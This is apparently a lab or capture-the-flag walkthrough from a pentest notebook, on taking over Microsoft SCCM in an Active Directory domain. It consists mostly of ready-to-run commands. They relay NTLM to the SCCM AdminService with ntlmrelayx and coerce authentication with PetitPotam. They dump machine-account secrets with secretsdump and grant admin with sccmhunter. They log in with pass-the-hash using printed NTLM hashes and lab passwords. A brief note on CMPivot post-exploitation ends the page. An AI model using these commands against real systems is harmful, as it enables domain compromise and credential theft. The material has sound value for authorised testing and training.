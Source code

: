 ```sh
# Run in venv
Import-Module .\PowerView.ps1
Get-DomainUser dario -Properties objectsid
python3 ntlmrelayx.py -t https://172.50.0.40/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "LAB\dario" --displayname "LAB\dario" --objectsid S-1-5-21-2570265163-3918697770-3667495639-2222

# Install relay-sccm-adminservice
git clone -b feature/relay-sccm-adminservice --single-branch https://github.com/garrettfoster13/impacket.git relay-sccm

# Target SMS_Admin
python3 examples/ntlmrelayx.py -t https://172.50.0.40/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "LAB\dario" --displayname "LAB\dario" --objectsid S-1-5-21-2570265163-3918697770-3667495639-1235

# Coerce
python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' PWNIP 172.50.0.21 

# Connect with sccmhunter
python3 sccmhunter.py admin -u dario -p 'Theman001' -ip 172.50.0.40
show_admins

# Get flag
runas /netonly /user:LAB\dario powershell
```

Or from a passive server

```sh
# Relay
ntlmrelayx.py -t 172.50.0.21 -smb2support -socks 

# Coerc
python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' 10.10.14.207 172.50.0.22

# Dump
proxychains4 -q secretsdump.py 'LAB/SCCM02$'@172.50.0.21 -no-pass

# ADmin
python3 sccmhunter.py admin -u 'SCCM01$' -p aad3b435b51404eeaad3b435b51404ee:12287584ab4bb4ef1123f0ed2f08ff79 -ip 172.50.0.40

# Flag
proxychains -q smbclient.py 'LAB/SCCM01$'@172.50.0.10 -hashes aad3b435b51404eeaad3b435b51404ee:591f754ef48082f5fc4abec66c223d30
```

### <mark style="color:yellow;">SCCM Post Exploitation</mark>

SCCM can deploy applications and services on the AD, but also can be used to enumerate data. The service CMPivot can enumerate all the resources of a computer. For commands: [sccmhunter wiki](https://github.com/garrettfoster13/sccmhunter/wiki/admin).
